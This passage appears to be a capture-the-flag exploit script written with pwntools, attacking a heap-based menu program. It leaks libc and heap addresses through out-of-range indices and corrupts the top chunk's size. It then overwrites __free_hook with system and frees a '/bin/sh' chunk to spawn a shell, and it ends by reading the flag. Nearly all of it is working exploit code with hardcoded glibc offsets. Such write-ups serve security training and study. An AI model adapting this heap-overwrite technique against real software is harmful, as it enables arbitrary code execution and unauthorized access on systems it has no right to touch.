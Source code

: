 ```py
	io.sendlineafter('user: ',str(idx))

def launch():
	io.sendlineafter('> ','5')
	io.sendlineafter('[y/n]','n')

def return_size(target, wilderness):
    return target - wilderness - 0x10

#offsets
mainarena_offset = 0x3ebc40
free_hook = 0x3ed8e8
malloc_hook = 0x3ebc30
system = 0x4f4e0
#leak libc
show(38)
io.recvuntil('Last name: ')
libc_base = u64(io.recvn(6)+'\x00\x00') - (0x7fe48aceb8d0 - 0x7fe48ab51000)
log.info('Libc base {}'.format(hex(libc_base)))
io.sendlineafter('[y/n]','n')
#leak heap
for i in range(3):
	make('HKHK','HKHK','n','n')
show(-11)
io.recvuntil('First name: ')
heap_base = u64(io.recvn(6)+'\x00\x00') - 0x380
log.info('Heap base {}'.format(hex(heap_base)))
make('HKHK','HKHK','y','n',year=0x10,month='A'*0x10+p64(0xffffffffffffffff),day=10)
make('HKHK','HKHK','n','y',commentlen=return_size(libc_base + free_hook-0xe0,heap_base+0x498),comment='AAAAAA')
make('',p64(0x0)+p64(0x0)+p64(0x0)+p64(libc_base+system),'n','n')
io.sendlineafter('[y/n]','n')
make('HKHK','HKHK','n','y',commentlen=0x20,comment='/bin/sh\x00')
io.sendlineafter('> ','4')
io.sendline('cat flag.txt')
io.interactive()
#flag{michael_scott_for_president}
```


